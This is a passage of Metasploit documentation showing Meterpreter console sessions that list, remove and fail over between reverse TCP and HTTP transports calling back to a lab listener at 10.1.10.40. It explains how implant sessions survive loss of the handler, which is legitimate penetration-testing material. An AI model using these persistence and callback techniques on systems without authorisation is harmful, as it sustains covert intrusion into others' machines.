 ```bash
[*] Removing transport ...
[+] Successfully removed reverse_http transport.
meterpreter > transport list
Session Expiry  : @ 2015-07-10 07:39:08

    Curr  URL                    Comms T/O  Retry Total  Retry Wait
    ----  ---                    ---------  -----------  ----------
    *     tcp://10.1.10.40:5000  300        3600         10

meterpreter > 
```

### Resilient transports

Previously, Meterpreter only had built-in resiliency in the `HTTP/S` payloads and this was due to the nature of `HTTP/S` as a stateless protocol. Meterpreter now has resiliency features baked into `TCP` transports as well, both `reverse` and `bind`. If communication fails on a given transport, Meterpreter will roll over to the next one automatically.

The following shows Metasploit being closed and leaving the existing `TCP` session running behind the scenes:

```bash
meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10

meterpreter > background
[*] Backgrounding session 5...
msf exploit(handler) > exit -y
```

With Metasploit closed, the Meterpreter session has detected that the transport is no longer functioning. Behind the scenes, Meterpreter has shut down this `TCP` transport, and has automatically moved over to the `HTTP` transport as this was the next transport in the list. From here, Meterpreter continues to try to re-establish connectivity with Metasploit on this transport a per the transport timeout settings.

The following output shows Metasploit being re-launched with the appropriate listeners, and the existing Meterpreter instance establishing a session automatically:

```bash
./msfconsole -r ~/msf.rc
[*] Starting the Metasploit Framework console...|
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.11.0-dev [core:4.11.0.pre.dev api:1.0.0]]
+ -- --=[ 1460 exploits - 835 auxiliary - 229 post        ]
```

  [Timeout documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Timeout-Control
  [Reliable Network documentation]: https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Reliable-Network-Communication